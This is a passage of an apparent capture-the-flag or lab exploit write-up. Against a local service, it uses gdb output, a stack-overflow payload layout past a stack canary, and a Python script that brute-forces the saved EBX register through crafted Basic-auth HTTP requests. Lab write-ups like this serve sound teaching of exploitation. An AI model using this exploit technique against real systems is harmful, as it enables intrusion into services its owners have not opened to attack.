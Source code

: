 ```lang-bash line-numbers 
(gdb) disas validate_credentials
...
0xb785f2b5 <+357>:	pop    %ebx
0xb785f2b6 <+358>:	pop    %esi
0xb785f2b7 <+359>:	pop    %edi
0xb785f2b8 <+360>:	pop    %ebp
0xb785f2b9 <+361>:	ret
...
```

We need to preserve **ebx** so we need to find out its value and we will use the same brute forcing approach but first we need to know the offset of the value that we will pop into ebx in our payload.

```lang-bash line-numbers 
passwd + "A"*canary_offset + canary + "B"*12 + "CCCC" + "B"*12 + "DDDD"
```

In gdb:

```lang-bash line-numbers 
(gdb) c
Continuing.
[New process 22843]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 22843]
0x44444444 in ?? ()
(gdb) i r ebx
ebx            0x43434343	1128481603
```

Ok now we can bruteforce **ebx** with the following script:

```lang-python line-numbers 
print("[+] Bruteforcing EBX ...")
ebx = ""
for byte in xrange(4):
        for ebx_byte in xrange(256):
                hex_byte = chr(ebx_byte)
                #print("[+] Trying: {0}{1}".format(ebx.encode("hex"), hex_byte.encode("hex")))
                credentials = base64.b64encode("stack6:{0}".format(passwd + "A"*canary_offset + canary + "B"*12 + ebx + hex_byte))
                try:
                        s = socket(AF_INET, SOCK_STREAM)
                        s.connect(("localhost", 20004))
                        request = "GET / HTTP/1.0\r\n"
                        request += "Authorization: Basic {0}\r\n".format(credentials)
                        request += "\n"
                        s.send(request)
                        response = s.recv(1024)
                        s.close()
                        if "200" in response:
                                ebx += hex_byte
                                print("[+] Found EBX byte: " + hex(ebx_byte))
                                break
                except:
                        pass
print("[+] EBX found: " + ebx.encode("hex"))
```
